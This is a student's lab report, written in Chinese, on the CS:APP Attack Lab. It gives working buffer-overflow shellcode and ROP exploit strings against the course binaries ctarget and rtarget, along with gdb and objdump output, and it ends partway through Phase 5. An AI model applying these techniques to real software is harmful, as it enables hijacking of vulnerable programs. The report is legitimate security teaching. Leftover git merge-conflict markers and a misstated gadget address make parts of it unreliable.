





# AttackLab
大二上, 汇编语言程序设计/Assembly-language Programming, Attack Lab: Understanding Buffer Overflow Bugs)


# Report

姓名：王昊华

班级：计04

学号：2020010942


## Part 1: Code Injection Attacks

> 输入攻击文本，对 `ctarget` 程序进行攻击，使得输入到栈中的数据被认为是指令，而引发特定错误。
>

### Phase 1

1. **实验目的**

   函数 `test()` 调用函数 `getbuf()` 后，直接调用函数 `touch1()` ，而不返回到函数 `test()` 。

2. **实验原理**

   输入超出缓冲区范围的攻击字符串，超出缓冲区的攻击字符串作为代码去执行。要使得运行完 `getbuf()` 函数后（执行 `return 1;` 时）直接跳转至 `touch1()` 函数而非正常返回 `test()` 函数，需要填充 `getbuf()` 函数在栈上被分配的空间，并在填充完后的 `8` 字节（即原先正常的返回地址）上写入 `touch1()` 函数的起始地址。

   下图为不同阶段的栈帧示意图：

   

3. **实验过程**

   通过 `objdump -d ctarget > ctarget.asm` 指令，获得 `getbuf`  汇编代码如下：

   ```assembly
   0000000000401825 <getbuf>:
    401825:	48 83 ec 38          	sub    $0x38,%rsp  # %rsp = %rsp - 0x38, 栈顶指针下移 56
    401829:	48 89 e7             	mov    %rsp,%rdi       
    ...
   ```

   栈顶指针下移 `0x38` 即 `56` 字节，即得 `getbuf()` 函数申请的内存空间大小为 `0x38` 即 `56` 字节（即 `buf` 的大小为 `56` 字节）。

    `touch1`  汇编代码如下：

   ```assembly
000000000040183b <touch1>:
    40183b:	48 83 ec 08          	sub    $0x8,%rsp  # 起始地址为 0x40183b
    40183f:	c7 05 b3 2c 20 00 01 	movl   $0x1,0x202cb3(%rip)
    ...
   ```

   `touch1` 的起始地址为 `0x40183b` ，`8` 字节小端地址为 `3b 18 40 00 00 00 00 00` 。

   在用 `00` 填满 `getbuf()` 函数申请的 `56` 字节内存空间后，随后的 `8` 个字节中存放 `touch1()` 函数的入口地址作为下一条指令地址，即 `3b 18 40 00 00 00 00 00` 。因此输入的攻击文本为：

   ```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
3b 18 40 00 00 00 00 00
   ```

   执行 `cat 1.txt | ./hex2raw | ./ctarget -q` 指令，利用 `hex2raw` 转换之后进行测试，获得以下信息，攻击成功：

   ```bash
2020010942@hp:~$ cat 1.txt | ./hex2raw | ./ctarget -q
Cookie: 0x4b02ac0f
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id NoOne
        course  15213-f15
        lab     attacklab
        result  2020010942:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 3B 18 40 00 00 00 00 00
   ```

4. **困难与心得**

   构造攻击文本方面，一开始搞错了 `1` 字节对应 `16` 进制文本中几个数字，一直无法输出正确结果；后来意识到应全部转化为 `bit` 来思考，`1 byte = 8 bit` ，而 `16` 进制文本中的相邻 `2` 个数字（如 `00` ）实际为 `16 ^ 2 = (2 ^ 4) ^ 2 = 2 ^ 8 ` 即 `8 bit` ，因此 `1` 字节恰好对应 `16` 进制文本中的相邻 `2` 个数字（如填充 `3` 字节需要 `00 00 00` 即 `3` 个 `00` ）。这让我对进制转换、存储单位有了更深刻的理解。

### Phase 2

1. **实验目的**

   函数 `test()` 调用函数 `getbuf()` 后，直接调用函数 `touch2()` ，而不返回到函数 `test()` 。

2. **实验原理**

   在读入 `56` 个字节的内容使得 `getbuf()` 内存空间被填满后，在填充完后的 `8` 字节（即原先正常的返回地址）上写入 `buf` 的起始地址，使得在`buf` 的起始位置中存放的【存储 `Cookie` 到 `%rdi` 、压入 `touch2` 地址并返回】的指令字节序列被执行，成功将 `Cookie` 值作为参数传入 `touch2()` 中。

   下图为不同阶段的栈帧示意图：

   

3. **实验过程**

   查看 **Phase 1** 中生成的 `ctarget.asm` 文件：

   ```assembly
   0000000000401869 <touch2>:
     401869:	48 83 ec 08          	sub    $0x8,%rsp  # 起始地址为 0x401869
     40186d:	89 fa                	mov    %edi,%edx
     ...
   ```
   
   可以得到 `touch2` 的起始地址为 `0x401869` 。
   
   构造汇编形式的插入代码：

   ```assembly
   inject2:
       mov    $0x4b02ac0f, %rdi  # 将 Cookie 的数值移动到寄存器 %rdi 中
       push   $0x401869  # 压入 touch2 起始地址
       ret  # 返回
   ```

   其中将 `Cookie` 即 `0x4b02ac0f` 这一立即数存入寄存器 `%rdi` 中（因为传入函数的第一个参数存在 `%rdi` 中），再将 `touch2` 的地址压入栈。

   然后将上述汇编代码 `inject2.s` 编译 `gcc -c inject2.s` 到对象文件 `inject2.o` ；再执行 `objdump -d inject2.o > inject2.d` ，生成机器指令：

   ```assembly
   0000000000000000 <inject2>:
      0:	48 c7 c7 0f ac 02 4b 	mov    $0x4b02ac0f,%rdi  
      7:	68 69 18 40 00       	pushq  $0x401869
      c:	c3                   	retq   
   ```

   指令字节序列为 `48 c7 c7 0f ac 02 4b 68 69 18 40 00 c3` 。

   执行 `gdb ./ctarget` 调试，执行 `b getbuf` （在 `getbuf()` 函数处设置断点），运行程序 `r -q` ：

   ```bash
   2020010942@hp:~$ gdb ./ctarget  # 用 gdb 调试 ./ctarget 可执行文件
   Reading symbols from ./ctarget...done.
   (gdb) b getbuf  # 在 getbuf 处设置断点
   Breakpoint 1 at 0x401825: file buf.c, line 12.
   (gdb) run -q  # 运行（本地运行，不上传到服务器）
   Starting program: /home/2020010942/ctarget -q
   Cookie: 0x4b02ac0f
   
   Breakpoint 1, getbuf () at buf.c:12
   12      buf.c: No such file or directory.
   ```

   `si` 执行当前行代码并进入下一行（如果当前行是函数调用，则进入函数调用），再通过 `disas getbuf` 输出目标函数的汇编，执行 `p $rsp` 输出寄存器 `%rsp` 的值：

   ```bash
   (gdb) si  # 前进一步（以指令为粒度）
   14      in buf.c
   (gdb) disas getbuf  # 输出汇编
   Dump of assembler code for function getbuf:
      0x0000000000401825 <+0>:     sub    $0x38,%rsp
   => 0x0000000000401829 <+4>:     mov    %rsp,%rdi  # 进入该行，说明已执行完上一行开辟空间
      0x000000000040182c <+7>:     callq  0x401ac5 <Gets>
      0x0000000000401831 <+12>:    mov    $0x1,%eax
      0x0000000000401836 <+17>:    add    $0x38,%rsp
      0x000000000040183a <+21>:    retq   
   End of assembler dump.
   (gdb) p $rsp  # 查看栈顶指针当前位置（即 buf 的起始地址）
   $1 = (void *) 0x55644e38
   ```

   `%rsp` 的值为 `0x55644e38` ，即为 `buf` 的起始地址，小端地址为 `38 4e 64 55 00 00 00 00` 。

   最后构造攻击文本，`buf` 的起始位置为存储 `Cookie` 到 `%rdi` 、压入 `touch2` 地址并返回的指令字节序列，因此在读入 `56` 个字节的内容使得 `getbuf()` 内存空间被填满后，会将下 `8` 个字节的内容即 `38 4e 64 55 00 00 00 00` 作为下一条指令地址执行，即跳转到 `buf` 的起始地址并执行指令字节序列，成功将 `Cookie` 值作为参数传入 `touch2` 中。

   ```
   48 c7 c7 0f ac 02 4b 68
   69 18 40 00 c3 00 00 00
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   38 4e 64 55 00 00 00 00
   ```

   执行 `cat 2.txt | ./hex2raw | ./ctarget -q` 指令，利用 `hex2raw` 转换之后进行测试，获得以下信息，攻击成功：

   ```bash
   2020010942@hp:~$ cat 2.txt | ./hex2raw | ./ctarget -q
   Cookie: 0x4b02ac0f
   Type string:Touch2!: You called touch2(0x4b02ac0f)
   Valid solution for level 2 with target ctarget
   PASS: Would have posted the following:
           user id NoOne
           course  15213-f15
           lab     attacklab
           result  2020010942:PASS:0xffffffff:ctarget:2:48 C7 C7 0F AC 02 4B 68 69 18 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 38 4E 64 55 00 00 00 00 
   ```

4. **困难与心得**

   最开始虽然能够根据作业文档中的提示构造 `exploit code` ，但不知道该段指令如何被程序调用，因此始终无法正确传入参数进入 `touch2()` 函数，错误的在原返回地址处放置 `touch2()` 函数的起始地址；后来摸索出来在原返回地址处要放构造的 `exploite code` 所在地址，才能够执行它，实现正确的传参，而 `touch2()` 的起始地址只需要在 `exploit code` 中压入指令栈即可进入 `touch2()` 中。这让我对机器执行指令的步骤有了更清晰的认识。

### Phase 3

1. **实验目的**

   函数 `test()` 调用函数 `getbuf()` 后，直接调用函数 `touch3()` ，而不返回到函数 `test()` 。

2. **实验原理**

   在读入 `56` 个字节的内容使得 `getbuf()` 内存空间被填满后，在填充完后的 `8` 字节（即原先正常的返回地址）上写入 `buf` 的起始地址，使得在`buf` 的起始位置中存放的【存放 `Cookie` 的地址到 `%rdi` 、压入 `touch3` 地址并返回】的指令字节序列被执行，成功将 `Cookie` 在内存中的地址作为指针参数传入 `touch3()` 中。

   下图为不同阶段的栈帧示意图：

   

3. **实验过程**

   查看 **Phase 1** 中生成的 `ctarget.asm` 文件：

   ```assembly
   0000000000401980 <touch3>:
       401980:	53                   	push   %rbx  # 起始地址为 0x401980
       401981:	48 89 fb             	mov    %rdi,%rbx
       ...
   ```

   得到 `touch3()` 的起始地址为 `0x401980` ，小端为 `80 19 40 00 00 00 00 00` 。

   与 **Phase 2** 中同理，进行 `gdb` 调试：

   ```bash
   2020010942@hp:~$ gdb ./ctarget  # gdb 调试程序 ./ctarget
   Reading symbols from ./ctarget...done.
   (gdb) b getbuf  # getbuf 处设置断点
   Breakpoint 1 at 0x401825: file buf.c, line 12.
   (gdb) r -q  # 运行（在本地运行，不上传服务器）
   Starting program: /home/2020010942/ctarget -q
   dCookie: 0x4b02ac0f
   
   Breakpoint 1, getbuf () at buf.c:12
   12      buf.c: No such file or directory.
   (gdb) disas getbuf  # 输出 getbuf 汇编代码
   Dump of assembler code for function getbuf:
   => 0x0000000000401825 <+0>:     sub    $0x38,%rsp  # 还未执行开辟 buf 空间的指令
      0x0000000000401829 <+4>:     mov    %rsp,%rdi
      0x000000000040182c <+7>:     callq  0x401ac5 <Gets>
      0x0000000000401831 <+12>:    mov    $0x1,%eax
      0x0000000000401836 <+17>:    add    $0x38,%rsp
      0x000000000040183a <+21>:    retq   
   End of assembler dump.
   (gdb) p $rsp  # 输出寄存器 %rsp 当前的值，即 getbuf 栈顶地址
   $1 = (void *) 0x55644e70
   ```

   `Cookie` 的写入位置在 `buf` 的终止地址（ `0x55644e70` ）再加上 `8` 字节返回地址的大小后，即为 `0x55644e78` 。

   编写汇编代码，实现存放 `Cookie` 的地址到 `%rdi` 、压入 `touch3` 地址并返回的功能：

   ```assembly
   inject3:
       mov     $0x55644e78, %rdi  # 将 Cookie 的地址存放在寄存器 %rdi 中
       push    $0x401980  # 将 touch3 的起始地址压入栈
       ret
   ```

   同 **Phase 2** 中将上述汇编代码 `inject3.s` 编译 `gcc -c inject3.s` 到对象文件 `inject3.o` ；再执行 `objdump -d inject3.o > inject3.d` ，生成机器指令：

   ```assembly
   0000000000000000 <inject3>:
      0:	48 c7 c7 78 4e 64 55 	mov    $0x55644e78,%rdi
      7:	68 80 19 40 00       	pushq  $0x401980
      c:	c3                   	retq   
   ```

   即得机器指令为： `48 c7 c7 78 4e 64 55 68 80 19 40 00 c3` 。

   再通过 `ascii -s 4b02ac0f` 指令，将字符串 `4b02ac0f` （ `Cookie` 的值）转换为字节表示：

   ```bash
<<<<<<< HEAD
   2020010942@hp:~$ ascii -s 4b02ac0f
   3/4   52   0x34   0o64   00110100
   6/2   98   0x62   0o142   01100010
   3/0   48   0x30   0o60   00110000
   3/2   50   0x32   0o62   00110010
   6/1   97   0x61   0o141   01100001
   6/3   99   0x63   0o143   01100011
   3/0   48   0x30   0o60   00110000
   6/6   102   0x66   0o146   01100110
=======
2020010942@hp:~$ ascii -s 4b02ac0f
3/4   52   0x34   0o64   00110100
6/2   98   0x62   0o142   01100010
3/0   48   0x30   0o60   00110000
3/2   50   0x32   0o62   00110010
6/1   97   0x61   0o141   01100001
6/3   99   0x63   0o143   01100011
3/0   48   0x30   0o60   00110000
6/6   102   0x66   0o146   01100110
>>>>>>> 03bfe41ddae91d059bf5c4b2214a7891a3d45c34
   ```

   末位添 `00` （与 `C` 语言中字符串末位添 `\0` 同理）即得：`34 62 30 32 61 63 30 66 00` 。

   最后构造攻击文本，`buf` 的起始位置为存放 `Cookie` 的地址到 `%rdi` 、压入 `touch3` 地址并返回的指令字节序列，因此在读入 `56` 个字节的内容使得 `getbuf()` 内存空间被填满后，会将下 `8` 个字节的内容即 `38 4e 64 55 00 00 00 00` 作为下一条指令地址执行，即跳转到 `buf` 的起始地址并执行指令字节序列，成功将 `Cookie` 在内存中的地址（即 `buf` 的终止地址再加上 `8` 字节返回地址的大小处，因此 `Cookie` 的字节序列在攻击文本填充 `56` 字节再加上返回地址的 `8` 字节大小处，即紧随  `38 4e 64 55 00 00 00 00` 内容的后 `9` 个字节）作为指针参数传入 `touch3()` 中：

   ```
<<<<<<< HEAD
   48 c7 c7 78 4e 64 55 68
   80 19 40 00 c3 00 00 00
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   38 4e 64 55 00 00 00 00
   34 62 30 32 61 63 30 66 00
=======
48 c7 c7 78 4e 64 55 68
80 19 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
38 4e 64 55 00 00 00 00
34 62 30 32 61 63 30 66 00
>>>>>>> 03bfe41ddae91d059bf5c4b2214a7891a3d45c34
   ```

   执行 `cat 3.txt | ./hex2raw | ./ctarget -q` 指令，攻击成功：

   ```bash
   2020010942@hp:~$ cat 3.txt | ./hex2raw | ./ctarget -q
   Cookie: 0x4b02ac0f
   Type string:Touch3!: You called touch3("4b02ac0f")
   Valid solution for level 3 with target ctarget
   PASS: Would have posted the following:
           user id NoOne
           course  15213-f15
           lab     attacklab
           result  2020010942:PASS:0xffffffff:ctarget:3:48 C7 C7 78 4E 64 55 68 80 19 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 38 4E 64 55 00 00 00 00 34 62 30 32 61 63 30 66 00 
   ```

4. **困难与心得**

   `Cookie` 的写入位置可以任意，只要不在 `hexmatch` 、`strncmp` 所开辟的栈帧即可，因此只需要构造出对应注入的代码，把 `Cookie` 的值 `mov` 到对应内存地址处，再将该地址存放到 `%rdi` 寄存器中即可实现正确的 `touch3` 传参；但因为无法用 `ascii` 生成 `Cookie` 字符串结尾处的 `\0` ，因此每次传的参都会带有之前地址上残余的错误信息（如 `4b02ac0f�@` 带有错误信息 `�@` ）。
   
   初代攻击文本为：
   
   ```
   48 c7 c7 78 4e 64 55 48
   b8 34 62 30 32 61 63 30
   66 48 89 04 25 78 4e 64
   55 68 80 19 40 00 c3 00
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   38 4e 64 55 00 00 00 00
   ```
   
   其中 `buf` 开头的指令通过以下汇编代码转来：
   
   ```assembly
   0000000000000000 <inject3>:
      0:	48 c7 c7 78 4e 64 55 	mov    $0x55644e78,%rdi
      7:	48 b8 34 62 30 32 61 	movabs $0x6630636132306234,%rax  # 因为 mov 无法处理过大的立即数，需借助寄存器 %rax 倒一下，最终放入内存地址中
      e:	63 30 66 
     11:	48 89 04 25 78 4e 64 	mov    %rax,0x55644e78  # 将 Cookie 放入内存地址中
     18:	55 
     19:	68 80 19 40 00       	pushq  $0x401980
     1e:	c3                   	retq   
   ```
   
   报错为：
   
   ```bash
   2020010942@hp:~$ cat 3.txt | ./hex2raw | ./ctarget -q
   Cookie: 0x4b02ac0f
   Type string:Misfire: You called touch3("4b02ac0f�@")
   FAIL: Would have posted the following:
           user id NoOne
           course  15213-f15
           lab     attacklab
           result  2020010942:FAIL:0xffffffff:ctarget:3:48 C7 C7 78 4E 64 55 48 B8 34 62 30 32 61 63 30 66 48 89 04 25 78 4E 64 55 68 80 19 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 38 4E 64 55 00 00 00 00 
   ```
   
   因此后面我转换思路，不通过注入的代码来将 `Cookie` 的字符串形式放到对应内存地址处，而是直接在攻击文本中将 `Cookie` 的字符串形式写入，这样写入可以人为地在结尾处补 `00` 来表示该字符串已结束。我觉得我这个问题肯定有对应的 `ascii` 可以解决，但我目前没有找到，并且即使找到了过程也较为繁琐（因为 `Cookie` 本身的字符串形式的大小已经是寄存器的存储上限，再补结束符会需要 `4` 次移动，`2` 次立即数移动到寄存器、`2` 次寄存器移动到内存地址）；因此这种思路转换来规避问题的方法也是值得我学习的。整体而言，这一 `phase` 让我对栈桢的分布理解的更透彻了。


## Part 2: Return-Oriented Programming

> 输入攻击文本，利用 `rtarget` 程序中原有指令的重新组合，对程序进行攻击而引发特定错误。
>

### Phase 4

1. **实验目的**

   利用 `rtarget` 中原有指令的重新组合，而非注入新代码指令，实现 **Phase 2** 中相同的目的。

2. **实验原理**

   与 **Phase 2** 原理基本相同，也需要读入 `56` 个字节的内容使得 `getbuf()` 栈帧的内存空间被填满，并将 `Cookie` 的值移动到寄存器 `%rdi` 中作为第一个参数被 `touch2` 读入；不同的是，实现 `Cookie` 值移动需要通过`rtarget` 原有的指令而不是注入的新代码指令，且覆盖 `getbuf` 正常返回地址的内容改为 `touch2` 的地址，实现跳转至 `touch2` 函数而非返回 `test` 函数。

   下图为不同阶段的栈帧示意图：

   

3. **实验过程**

   构造汇编代码，实现将写入栈内的 `Cookie` ，通过 `pop %rax` 直接保存到寄存器 `%rax` 中，再从 `%rax` 中移动到存放首个参数的 `%rdi` 寄存器中，以实现后续 `touch2()` 中的正确传参（查表可得编码的指令序列）：

   ```assembly
   popq    %rax  # 指令序列为 58
   movq    %rax, %rdi  # 指令序列为 48 89 c7
   ```
   
   在 `rtarget` 的 `<start_farm>` 至 `<end_farm>` 之间进行检索（记得指令序列后面可以跟若干个 `90` ，表示 `nop` ；最后必须跟 `c3` ，表示 `ret` ）：
   
   ```assembly
   0000000000401a38 <setval_448>:
     401a38:	c7 07 58 c3 af 28    	movl   $0x28afc358,(%rdi)  # 0x401a3a 处有 58 c3
     401a3e:	c3                   	retq   
   ```
   
   得到 `pop %rax` 的指令序列在 `0x401a3a` 处，小端补零为 `3a 1a 40 00 00 00 00 00` ；
   
   ```assembly
   0000000000401a23 <setval_142>:
     401a23:	c7 07 48 89 c7 c3    	movl   $0xc3c78948,(%rdi)  # 0x401a25 处有 48 89 c7 c3
     401a29:	c3                   	retq   
   ```
   
   `mov %rax, %rdi` 的指令序列在 `0x401a25` 处，小端补零为 `33 1a 40 00 00 00 00 00` 。
   
   由 **Phase 2** 中得到的 `touch2` 的起始地址为 `0x401869` （小端补零为 `69 18 40 00 00 00 00 00` ），以及 `Cookie` 值 `0x4b02ac0f`（小端补零为 `0f ac 02 4b 00 00 00 00 ` ），构造攻击文本：
   
   ```
   00 00 00 00 00 00 00 00 
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00 
   00 00 00 00 00 00 00 00 
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   3a 1a 40 00 00 00 00 00
   0f ac 02 4b 00 00 00 00 
   25 1a 40 00 00 00 00 00
   69 18 40 00 00 00 00 00
   ```
   
   执行 `cat 4.txt | ./hex2raw | ./rtarget -q` 得到正确结果：
   
   ```bash
   2020010942@hp:~$ cat 4.txt | ./hex2raw | ./rtarget -q
   Cookie: 0x4b02ac0f
   Type string:Touch2!: You called touch2(0x4b02ac0f)
   Valid solution for level 2 with target rtarget
   PASS: Would have posted the following:
           user id NoOne
           course  15213-f15
           lab     attacklab
           result  2020010942:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 3A 1A 40 00 00 00 00 00 0F AC 02 4B 00 00 00 00 25 1A 40 00 00 00 00 00 69 18 40 00 00 00 00 00 
   ```
   
3. **困难与心得**
   
   最开始没有找到 `pop %rdi` 的指令（即 `5f` ），后来意识到可以用其他的寄存器周转，改变思路，最后找到了 `%rax` 作为周转寄存器：
   
      ```assembly
      popq    %rax  # 原先这两行指令只有一行 pop %rdi, 但该指令的字节序无法在 rtarget 中检索到，故退而求其次，使用 %rax 这一寄存器进行周转
      movq    %rax, %rdi  # 最终 Cookie 的值存放到 %rdi 中
      ```

   条条大路通罗马，关键是想明白攻击文本中 `gadget` 和 `data` 的排布，以及在 `stack frame` 中他们的位置、何时被执行。

### Phase 5

1. **实验目的**

   利用 `rtarget` 中原有指令的重新组合，而非注入新代码指令，实现 **Phase 3** 中相同的目的。

2. **实验原理**

   与 **Phase 2** 原理基本相同，也需要读入 `56` 个字节的内容使得 `getbuf()` 栈帧的内存空间被填满，并将存放 `Cookie` 处的内存地址的值移动到寄存器 `%rdi` 中作为第一个参数被 `touch3` 读入；不同的是，实现 `Cookie` 的地址移动需要通过`rtarget` 原有的指令而不是注入的新代码指令，且覆盖 `getbuf` 正常返回地址的内容改为 `touch3` 的地址，实现跳转至 `touch3` 函数而非返回 `test` 函数。

   下图为不同阶段的栈帧示意图：

   

3. **实验过程**

   计算地址需用两个寄存器的 `lea` 指令，`rtarget` 中仅有：

   ```assembly
   0000000000401a61 <add_xy>:
     401a61:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax  # %rax = %rdi + %rsi * 1，其中 %rdi 存栈顶指针 %rsp 的值，%rsi 存 Cookie 相对 %rsp 的偏移量
     401a65:	c3                   	retq   
   ```
   
   其地址为`0x401a61`；要使用 `lea (%rdi,%rsi,1),%rax` ，`%rdi` 存栈顶指针 `%rsp` 的值，`%rsi` 存 `Cookie` 的地址相对 `%rsp` 的偏移量，且最后需将结果移动到存放到第一参数的寄存器 `%rdi` 中。
   
